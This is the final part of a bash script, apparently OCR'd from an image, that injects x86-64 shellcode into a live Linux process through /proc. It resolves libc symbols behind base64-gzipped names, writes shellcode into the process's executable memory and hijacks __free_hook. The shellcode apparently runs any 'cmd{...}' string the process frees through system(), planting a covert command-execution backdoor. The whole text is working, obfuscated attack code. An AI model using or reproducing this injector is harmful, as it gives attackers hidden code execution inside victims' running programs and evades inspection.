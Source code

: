 ```bash

        # same as above for system
    VA_system=$((libcBaseAddr+$(getRVAForSymbol $libcBaseFsPath $(debase64gunzip H4sIAAAAAAAAAyuuLC5JzQUAixFNyQYAAAA=))))

        # same as above for free
    VA_free=$((libcBaseAddr+$(getRVAForSymbol $libcBaseFsPath $(debase64gunzip H4sIAAAAAAAAA0srSk0FAMjBLk0EAAAA))))

        # same as above for malloc_usable_size
    VA_malloc_usable_size=$((libcBaseAddr+$(getRVAForSymbol $libcBaseFsPath $(debase64gunzip H4sIAAAAAAAAA8tNzMnJT44vLU5MykmNL86sSgUA3kc6ChIAAAA=))))

        # parse map file for target pid for first vmem range with r-xp permissions (read & execute) and save its region's end address
    VA_end_of_rxp_vmem=$((0x$(grep -E "/libc.*so$" "/proc/$pid/maps" | grep 'r-xp' | head -n 1 | tr -s ' ' | cut -d ' ' -f1 | cut -d '-' -f2)))

    shellcode='\x48\xb8\x41\x41\x41\x41\x41\x41\x41\x41\x41\x55\x49\xbd\x43\x43\x43\x43\x43\x43\x43\x43\x41\x54\x49\x89\xfc\x55\x53\x4c\x89\xe3\x52\xff\xd0\x48\x89\xc5\x48\xb8\x44\x44\x44\x44\x44\x44\x44\x44\x48\xc7\x00\x00\x00\x00\x00\x48\x83\xfd\x05\x76\x61\x80\x3b\x63\x75\x54\x80\x7b\x01\x6d\x75\x4e\x80\x7b\x02\x64\x75\x48\x80\x7b\x03\x7b\x75\x42\xc6\x03\x00\x48\x8d\x7b\x04\x48\x8d\x55\xfc\x48\x89\xf8\x8a\x08\x48\x89\xc3\x48\x89\xd5\x48\x8d\x40\x01\x48\x8d\x52\xff\x8d\x71\xe0\x40\x80\xfe\x5e\x77\x1b\x80\xf9\x7d\x75\x08\xc6\x03\x00\x41\xff\xd5\xeb\x0e\x48\x83\xfa\x01\x75\xd4\xbd\x01\x00\x00\x00\x48\x89\xc3\x48\xff\xc3\x48\xff\xcd\xeb\x99\x48\xb8\x42\x42\x42\x42\x42\x42\x42\x42\x4c\x89\xe7\xff\xd0\x48\xb8\x55\x55\x55\x55\x55\x55\x55\x55\x48\xa3\x44\x44\x44\x44\x44\x44\x44\x44\x58\x5b\x5d\x41\x5c\x41\x5d\xc3'
    shellcode=$(searchAndReplace $shellcode '\x41\x41\x41\x41\x41\x41\x41\x41' $(bigEndianToLittleEndian $VA_malloc_usable_size))
    shellcode=$(searchAndReplace $shellcode '\x42\x42\x42\x42\x42\x42\x42\x42' $(bigEndianToLittleEndian $VA_free))
    shellcode=$(searchAndReplace $shellcode '\x43\x43\x43\x43\x43\x43\x43\x43' $(bigEndianToLittleEndian $VA_system))
    shellcode=$(searchAndReplace $shellcode '\x44\x44\x44\x44\x44\x44\x44\x44' $(bigEndianToLittleEndian $VA_free_hook))
    sizeOfShellcode=$(echo -ne $shellcode | wc -c)
    VA_to_inject_shellcode=$(($VA_end_of_rxp_vmem - $sizeOfShellcode))
    shellcode=$(searchAndReplace $shellcode '\x55\x55\x55\x55\x55\x55\x55\x55' $(bigEndianToLittleEndian $VA_to_inject_shellcode))

    patchCodeIntoPidVmemVA $pid $VA_to_inject_shellcode $shellcode
    patchCodeIntoPidVmemVA $pid $VA_free_hook $(bigEndianToLittleEndian $VA_to_inject_shellcode)
}

if [ $# -ne 1  ] || [ ! -e "/proc/$1" ] ; then
    exit 42
fi

main $1
```
